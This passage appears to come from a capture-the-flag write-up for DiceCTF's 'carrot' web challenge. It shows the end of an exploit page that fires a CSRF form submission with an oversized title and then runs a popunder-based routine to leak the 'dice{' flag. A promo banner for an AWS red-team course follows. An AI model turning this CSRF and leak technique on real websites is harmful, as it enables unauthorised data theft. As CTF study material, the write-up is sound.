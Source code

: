 ```html
}

const csrf = async () => {
    x.action = `https://carrot-${INSTANCE}.mc.ax/edit/0`
    x.title.value = "A".repeat(1000000)
    x.submit()
}

window.onload = () => {
    let p = new URL(location).searchParams;
    if(!p.has('i')){
        console.log(`no INSTANCE`)
        return
    }
    INSTANCE = p.get('i')
    // step 1 
    if(p.has('csrf')){
        csrf()
        return
    }
    // step 2
    if (p.has('exploit')) {
        // window open is ok in headless :)
        popunder()
        
        exploit('dice{')
    }
}
</script>
```



<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
